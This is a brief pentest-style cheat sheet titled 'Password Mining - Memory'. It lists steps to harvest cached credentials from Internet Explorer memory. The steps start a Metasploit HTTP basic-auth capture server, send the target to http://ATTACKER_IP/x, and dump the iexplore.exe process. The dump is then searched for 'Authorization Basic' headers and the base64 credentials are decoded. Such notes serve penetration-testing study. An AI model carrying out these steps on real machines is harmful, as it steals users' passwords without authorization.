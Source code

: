 # Password Mining - Memory

## Steps:

#### 1: 

    msfconsole

#### 2: 

    use auxiliary/server/capture/http_basic

#### 3: 

    set uripath x

#### 4: 

    run

#### 5: On target, browse to http://ATTACKER_IP/x

#### 6: 

    taskmgr

#### 7: Right-click "iexplore.exe" in the "Image Name" abd select "Create Dump File"

#### 8: Copy dump file to attacking machine

#### 9: 

    Strings /path/to/dumpfile | grep "Authorization Basic"

#### 10: 

    echo -ne BASE64 STRING | base64 -d

#### 11: PROFIT!
